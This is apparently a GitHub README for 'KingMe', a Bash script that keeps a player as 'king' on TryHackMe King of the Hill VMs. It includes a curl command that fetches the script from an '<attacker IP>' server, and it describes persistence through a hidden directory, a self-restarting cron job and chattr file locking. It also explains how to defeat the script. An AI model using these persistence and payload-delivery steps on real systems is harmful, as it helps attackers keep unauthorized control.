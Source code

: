 # KingMe
Bash script that helps you maintain your rightful place as king on any Linux box while playing
King of the Hill on TryHackMe.com

## DISCLAIMER
As far as I know, it is not against the rules of THM KotH to use a script like this.
However, I am not responsible if you get banned because you used this script.
Use at your own risk.

## How to use it
Firstly, you must be root on the KotH VM in order for this script to work. 
On your attacker machine in the same directory as KingMe, start an http server to host all the files on port 8080.
This python one-liner works pretty well for that:
`python -m http.server 8080`
Next, on the KotH VM, use curl to get the kingme.sh script like so:
`curl -o kingme.sh <attacker IP>:8080/kingme.sh`
Then, make kingme.sh executable:
`chmod u+x kingme.sh`
Finally, run kingme.sh and take your rightful place as king!

## How it works
KingMe sets up a secret working directory, and then downloads several busybox bins to that
working directory. This will allow the script to run properly even if at some point the bins
on the KotH VM are moved or messed with. The script then sets up a cron job to restart itself in 
case the user's shell is terminated or the script stops running for some reason. Finally, 
the magic happens. Every second KingMe checks /root/king.txt for your username. If it's not 
there, it puts your username in king.txt. It also locks the file with chattr making it more
difficult to edit by other players. This should maintain a player as king indefinitely, unless
another player figures out what's going on and stops it.

## How to defeat KingMe
Remove the cron job that auto starts the script, and delete the working directory that was created.
You can also just use the mount trick to make king.txt read-only.

## Future Plans
- Add counter measures for other king.txt tricks (like the mount trick)
- The little script the cron job calls is sloppy and will start the whole script over
even the downloading the bins and such. Gotta clean that up.
- Auto detect if curl and wget are on the VM and choose which one to use.
- Parse some args so this thing can be a little more dynamic.
- Re-write this REAME. It's also sloppy. But hey! It's late! Give me a break! haha

## Version Notes
- v0.1 - Initial release written after some shower thoughts late at night
- v0.2 - Added steps to rename the busybox bins and make them executable (don't know how I missed this...), added wget commands for the bins (just in case), and added some noclobber stuff. Also, updated "Future Plans" section of README.
